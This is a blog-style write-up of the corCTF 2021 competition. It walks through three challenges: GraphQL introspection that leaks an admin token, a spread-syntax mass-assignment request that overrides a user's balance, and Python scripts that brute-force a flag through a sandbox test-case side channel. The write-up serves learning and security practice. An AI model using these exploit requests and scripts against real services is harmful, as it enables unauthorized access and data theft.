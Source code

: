 ```yaml
---
title: "CTF - corCTF 2021"
categories: [ctf]
date: 2021-09-02
comments: true
image: /images/kashmir.png
description: CTF - corCTF 2021
favicon: /images/favicon.ico
---
```


# corCTF 2021

<p align="center">
  <img src="/images/writeups/corCTF2021/logo.png" width="30%"/>
</p>

Welcome! I've participated on my own in this CTF for team [ISwearIGoogledIt](https://ctftime.org/team/109689) and got some challenges! I focused on the web ones, but had two from crypto and one from misc. I enjoyed the web ones, learned a lot from graphql and javascript and its spread syntax.

<p align="center">
  <img src="/images/writeups/corCTF2021/rank.png" width="70%"/>
</p>

---

Challenge index:

### Web
- [devme](#devme)
- [buyme](#buyme)

### Misc
- [yeetcode](#yeetcode)

<small><i><a href="https://github.com/kashmir54/md-toc">Table of contents generated with md-toc</a></i></small>


---

# Web

## devme

an ex-google, ex-facebook tech lead recommended me this book!

https://devme.be.ax


First thing was to check the functionality of the website and I fond this interesting. With the email sent, the JS makes a call to a graphql endpoint which takes a JSON as an input with the name/email:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_formjs.png" width="70%"/>
</p>

```javascript
document.getElementById('form').onsubmit = async e => {
  e.preventDefault();

  const email = document.getElementById('email').value;

  let res = await (await fetch('/graphql', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    query,
    variables: { email }
  })
  })).json();

  if (res.data) {
  document.getElementById('form-wrapper').innerHTML = `<h2 class="form-heading 
      text-center">Thanks, you'll hear from us soon!</h2>`
  }

  return false;
}
```

For the first run I debugged the JS and res variable was:

username: "bb0b9d32cdba541ee0bf7ea8acc5b166e09c429a5493f15a2cae714b15f84d33"

Other run obtained

username: "e17fb2b1415f1a670810aa54e23042818fdd93d4e873f7e2c07c421ea598acc7"


Seems like the Graphql is executing the query set on the parameter?

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_token.png" width="90%"/>
</p>

I prepared the following payload in BurpSuite and sent it to the server:

- Query:

```
query "mutation createUser($email: String!) {\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n"
variables {…}
email "test@test.com"
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_graphql.png" width="90%"/>
</p>

Yes it does. I have never used Graphql so I had to get a grasp of it with the [documentation](https://graphql.org/learn/queries/) to understand what's going on and how it works.
Current query send every time is this one:

```json
{
  "query" : "mutation createUser($email: String!){\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n",
  "variables" : {"email" : "test@test.com"}
}
```

To enumarate the objects in the API we can use the following query. [HackTricks always helps](https://book.hacktricks.xyz/pentesting/pentesting-web/graphql) and I also saw it on this [great write up](https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/):

- Query:

```json
{
  "query":"{__schema{\n\t queryType{\n\t fields{\n\t name\n}\n}\n}\n}",
  "variables":{"email":"test@test.com"}
}
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_graphql.png" width="90%"/>
</p>

We can see the object flag. Let's work on crafting a payload to retrieve its content.
To get more information:

- Query:

```json
{
  "query":"{__schema {types {name}}}",
  "variables":{"email":"test@test.com"}
}
```

Response

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_2_graphql.png" width="90%"/>
</p>

Let's retrieve the users by the username (since we saw that the response to create user was a user hash):

- Query:

```json
{
  "query":"{users {username}}",
  "variables":{"email":"test@test.com"}
}
```

Response:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_3_graphql.png" width="90%"/>
</p>


Okey, now I know something more about Graphql. Following the same syntax, I will try to obtain the content from flag:

- Query:

```json
{"query":"{flag}"}
```

Response Error:

```json
{
  "message":"Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided."
}
```

From the message we suppose that there is a token that will be used to obtain the flag... What if the user _admin_ had two attributes _username_ and _token_? Let's give it a try:

- Query:

```json
{"query":"{users {username token}}"}
```

Response:

```json
{"data":{
  "users":[
  {
    "username":"admin",
    "token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"
  },
  {
    "username":"b82d9af8a6226c072bcd811e7a009ffb36b2ad88be67ac396d170fe8e2f1de7c",
    "token":"5568f87dc1ca15c578e6b825ffca7f685ac433c1826b075b499f68ea309e79a6"
  },
  {"...":"..."}
```

Now let's try to retrieve the flag using the admin token:

- Query:

```json
{
  "query":"{flag(token:\"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}"
}
```

Response:

```json
{"data":{"flag":"corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"}}
```

We have the flag:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_7_burpflag.png" width="90%"/>
</p>


``` corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice} ```


Great, I could learn how GraphQL works and wanted to go further. Now that I have understood how it works and how to enumerate manually. I found a tool from [swisskyrepo](https://github.com/swisskyrepo) similar to sqlmap, it's called [GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).
I saw how it works and makes the recon task so much easier:

```
python3 graphqlmap.py -u https://devme.be.ax/graphql -v --method POST 
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_4_graphqlmap.png" width="70%"/>
</p>

Not only enumerate, but also interact with the API:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_5_graphqlmap.png" width="70%"/>
</p>

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_6_flag.png" width="70%"/>
</p>


``` corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice} ```


## buyme
I made a new site to buy flags! But no hoarding, okay :<

I enjoyed this one so much! So let's dive in:

We land into a website where we can register, log in and buy flags. By default, we have 100$ and buy four flags, but not the one we want, the CTF flag.

<div display="grid">
  <img src="/images/writeups/corCTF2021/Web/2_01.png" width="48%"/>
  <img src="/images/writeups/corCTF2021/Web/2_02.png" width="48%"/>
</div>

They provided us the code, so I took a look into it. Most interesting parts were:

- The access to the flag storage and the buying process:

```javascript
const fs = require("fs");

const flags = new Map();
for(let flag of JSON.parse(fs.readFileSync("flags.json")).flags) {
  if(flag.name === "corCTF") {
    flag.text = process.env.FLAG || "corctf{test_flag}";
  }
  flags.set(flag.name, flag);
}

const users = new Map();

const buyFlag = ({ flag, user }) => {

  if(!flags.has(flag)) {
    throw new Error("Unknown flag");
  }
  if(user.money < flags.get(flag).price) {
    throw new Error("Not enough money");
  }

  user.money -= flags.get(flag).price;
  user.flags.push(flag);
  users.set(user.user, user);
};

module.exports = { flags, users, buyFlag };
```

- The api.js where the content is served:

```javascript
const express = require("express");
const bcrypt = require("bcrypt");

const router = express.Router();

const db = require("../db.js");

const requiresLogin = (req, res, next) => {
  if(!req.user) {
    return res.redirect("/?error=" + encodeURIComponent("You must be logged in"));
  }
  next();
};

router.post("/register", async (req, res) => {
  let { user, pass } = req.body;
  if(!user || !pass) {
    return res.redirect("/?error=" + encodeURIComponent("Missing username or password"));
  }
  if(db.users.has(user)) {
    return res.redirect("/?error=" + encodeURIComponent("A user already exists with that username"));
  }
  db.users.set(user, {
    user,
    flags: [],
    money: 100,
    pass: await bcrypt.hash(pass, 12)
  });
  res.cookie('user', user, { signed: true, maxAge: 1000*60*60*24 });
  res.redirect("/");
});

router.post("/login", async (req, res) => {
  let { user, pass } = req.body;
  if(!user || !pass) {
    return res.redirect("/?error=" + encodeURIComponent("Missing username or password"));
  }
  if(!db.users.has(user)) {
    return res.redirect("/?error=" + encodeURIComponent("No user exists with that username"));
  }
  if(!await bcrypt.compare(pass, db.users.get(user).pass)) {
    return res.redirect("/?error=" + encodeURIComponent("Incorrect password"));
  }

  res.cookie('user', user, { signed: true, maxAge: 1000*60*60*24 });
  res.redirect("/");
});

//Special attention here:
router.post("/buy", requiresLogin, async (req, res) => {
  if(!req.body.flag) {
    return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
  }
  try {
    db.buyFlag({ user: req.user, ...req.body });
  }
  catch(err) {
    return res.redirect("/flags?error=" + encodeURIComponent(err.message));
  }

  res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});

module.exports = router;
```

At the first glimpse I thought, maybe I can register with infinite money and buy the flag, but after some crazy ideas I found no way to exploit the user creation, no JSON inyection was possible in this piece of code:

```javascript
db.users.set(user, {
  user,
  flags: [],
  money: 100,
  pass: await bcrypt.hash(pass, 12)
});
```

Then I just focused on the buying process. And found this piece of code interesting, specially in the arguments and the [spread syntax (...)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_syntax) with a user input after it (**req.body**):

```javascript
router.post("/buy", requiresLogin, async (req, res) => {
  if(!req.body.flag) {
    return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
  }
  try {
    //Buying a flag with spread argument controlled by a user
    db.buyFlag({ user: req.user, ...req.body });
  }
  catch(err) {
    return res.redirect("/flags?error=" + encodeURIComponent(err.message));
  }

  res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});
```

Let's check the request when we buy the Indian flag:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_03.png" width="70%"/>
</p>

We can see that a POST request is sent with variable user equals to the user obtained in the session and the _flag=India_ set in the resquest body. Then, the buyFlag function is called.

```javascript
const buyFlag = ({ flag, user }) => {

  if(!flags.has(flag)) {
    throw new Error("Unknown flag");
  }
  if(user.money < flags.get(flag).price) {
    throw new Error("Not enough money");
  }

  user.money -= flags.get(flag).price;
  user.flags.push(flag);
  users.set(user.user, user);
};
```

I started thinking... Maybe I can spoof the user object at the call **{ user: req.user, ...req.body }** by adding in the body request a key called **user**, then this **user** will be the last at the function called and will substitute the one provided at the beginning. 

The key for this challenge is how we send that information. I'm currently learning and it took me some thinking for this. I used Burp Suite Repeater for this attack and to test different options or ideas. In this process I used the provided code to deploy the web server and to debug the payload type and how the payload was injected in the spread syntax.

First I tried the following payload, but no effect took placed because req.body won't parse the user and place it as it is:

```
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Content-Type: application/x-www-form-urlencoded
Cookie: user=s%3Akash.hWxlfYBnVsfOT6FEyD7nAloOEFSk7kX4%2BHCCYdnKBVk

flag=corCTF&user={}

or 

flag=corCTF&user={"kash":{"flags":[],"money":10000000000000000000000000000,
  "pass":"$2a$12$e6.1cSQ4ynSUXDTN5HvkN.RlAqWDOtOqHL3twe/wRD77MBKKELJZO"
}}
```

Then while debugging I found the key, sending an object. How? Instead of sending parameters and strings, let's send a JSON object. To do it, I changed the header Content-Type from _x-www-form-urlencoded_ to _application/json_ and spoof of money variable and set it to **1e400** for example:


```
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Content-Type: application/json
Cookie: user=s%3Akash.hWxlfYBnVsfOT6FEyD7nAloOEFSk7kX4%2BHCCYdnKBVk

{"flag":"corCTF",
  "user":{
    "user": "kash",
    "flags": [],
    "money": 1e400,
    "pass":"$2b$12$e4fanJaZOX1pwZTVxsHcZOIuGp.3Ti27FtVnesFrURw4eSWfY6aGi"
  }
}
```

We can see that the request is responding flag bought successfully.
<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_0.png" width="70%"/>
</p>

We can go to my flag inventory and saw the flag (it shows two because I sent the request twice):

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_1_flag.png" width="70%"/>
</p>

``` corctf{h0w_did_u_steal_my_flags_you_flag_h0arder??!!} ```

Really fun and learned a lot.

---

# Misc

## yeetcode
Brush up on your coding skills and ace your next interview with YeetCode! Flag is at ./flag.txt
https://yeetcode.be.ax

We enter in the website and find that there is a challenge for coding:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_6_flag.png" width="70%"/>
</p>

With the following input (python code that meets the requirements), it shows that there are 10 test cases:

```python
def f(a, b):
  return a+b
```

- Message: You passed 10/10 test cases. Congrats!


On the provided code, we can see that there are two fixes test cases, the rest is random:

- Test 1: 2+3 = 5
- Test 2: 5+7 = 12

The provided code:

```python
from flask import Flask, render_template, request, session
import random, epicbox, os

# docker pull 

epicbox.configure(
  profiles=[
    epicbox.Profile('python', 'python:3.9.6-alpine')
  ]
)

app = Flask(__name__)
app.secret_key = os.urandom(16)
flag = open('flag.txt').read()

@app.route('/')
def yeet():
  return render_template('yeet.html')

@app.route('/yeet')
def yeetyeet():
  return render_template('yeetyeet.html')

@app.route('/yeetyeet', methods=['POST'])
def yeetyeetyeet():
  if 'run' in session and session['run']:
    return {'error': True, 'msg': 'You already have code running, please wait for it to finish.'}
  session['run'] = True
  code = request.data
  tests = [(2, 3, 5), (5, 7, 12)]
  for _ in range(8):
    a, b = random.randint(1, 100), random.randint(1, 100)
    tests.append((a, b, a + b))
  
  cmd = 'from code import f\n'
  outputs = []
  for case in tests:
    a, b, ans = case
    cmd += f'print(f({a}, {b}))\n'
    outputs.append(str(ans))

  files = [{'name': 'flag.txt', 'content': flag.encode()}, {'name': 'code.py', 'content': code}]
  limits = {'cputime': 1, 'memory': 16}
  result = epicbox.run('python', command='python3', stdin=cmd, files=files, limits=limits)

  if result['exit_code'] != 0:
    session['run'] = False
    return {'error': True, 'msg': 'Oops! Your code has an error in it. Please try again.'}
  actual = result['stdout'].decode().strip().split('\n')

  passes = 0
  fails = 0
  for i in range(len(outputs)):
    if outputs[i] == actual[i]:
      passes += 1
    else:
      fails += 1

  session['run'] = False
  return {'error': False, 'p': passes, 'f': fails}

if __name__ == "__main__":
  app.run(host='0.0.0.0', port=5000)
```

We cannot just place a print in the code and print the flag, because there is no output, but we can access and read the flag to make operations over it.
Since there are two fixed set cases, we can use them to bruteforce each char of the flag whenever or code gets in that specific test. Then, we have contron on triggering the error only in one of the test cases, for example:

Bruteforece first char:
if test case 2+3 and first char is a, return correct response (5), if it is not a, send failed response
if test case is not 2+3, return the correct sum (a+b)

In this way, if the recieve 10/10 tests passed, we know that the guessed letter is correct, otherwise it wasn't.
The following code is proposed:

```python

import requests

def guess_it(flag_index):

  a, b = 97, 126

  for guess in range(a,b):

    print("Guess ascii: {} - {}".format(guess, chr(guess)))

    r = requests.post(url=url, data = input_code.format(flag_index, guess), cookies = cookie)
    #print(r.json())
    # If read char if right:
    if r.json()['p'] == 1:

      print('Found: ' + chr(guess))
      return chr(guess)

  return 0


input_code = """def f(a, b):
  if a==2 and b==3:
    f = open("flag.txt", "rb")
    char = f.read()[{}]
    if char == {}:
      return 5
    else:
      return 1234
  else:
    return a"""


url = "https://yeetcode.be.ax/yeetyeet"
cookie = {"session": "eyJydW4iOmZhbHNlfQ.YSBRoA.tysIiP53vCiR6K95eHZA_1hxk30"}

flag = []

for flag_index in range(0,50):
  flag.append(guess_it(flag_index))
  print(''.join(flag))
```

It will take so long to get it by using linear search O(n)... Let's go for an easy binary search strategy (and also, use all posible ascii characters (from 32 to 126)):

```python
import requests

def guess_it(flag_index):

  a, b = 32, 126
  mid = (a+b)//2

  while a < b:

    print("Guess ascii: {} - {}".format(mid, chr(mid)))

    r = requests.post(url=url, data = input_code.format(flag_index, mid), cookies = cookie)
    #print(r.json())
    # If read char if right:
    if r.json()['p'] == 1:
      b = mid
    else:
      a = mid + 1
    mid = (a+b)//2

  
  return chr(mid-1)


input_code = """def f(a, b):
  if a==2 and b==3:
    f = open("flag.txt", "rb")
    char = f.read()[{}]
    if char < {}:
      return 5
    else:
      return 1234
  else:
    return a"""

url = "https://yeetcode.be.ax/yeetyeet"
cookie = {"session": "eyJydW4iOmZhbHNlfQ.YSBRoA.tysIiP53vCiR6K95eHZA_1hxk30"}

flag = []

for flag_index in range(0,50):
  flag.append(guess_it(flag_index))
  print(''.join(flag))

```

Output:

```
...
corctf{1m4g1n3_cp_g0lf_6a318df
Guess ascii: 79 - O
Guess ascii: 103 - g
Guess ascii: 91 - [
Guess ascii: 97 - a
Guess ascii: 100 - d
Guess ascii: 102 - f
Guess ascii: 101 - e
corctf{1m4g1n3_cp_g0lf_6a318dfe
Guess ascii: 79 - O
Guess ascii: 103 - g
Guess ascii: 115 - s
Guess ascii: 121 - y
Guess ascii: 124 - |
Guess ascii: 125 - }
corctf{1m4g1n3_cp_g0lf_6a318dfe}
Guess ascii: 79 - O
Guess ascii: 55 - 7
Guess ascii: 43 - +
Guess ascii: 37 - %
Guess ascii: 34 - "
Guess ascii: 33 - !
Guess ascii: 32 -  
corctf{1m4g1n3_cp_g0lf_6a318dfe}
Guess ascii: 79 - O
```

So much faster now ;)

``` corctf{1m4g1n3_cp_g0lf_6a318dfe} ```


That's all from this CTF, thanks for reading!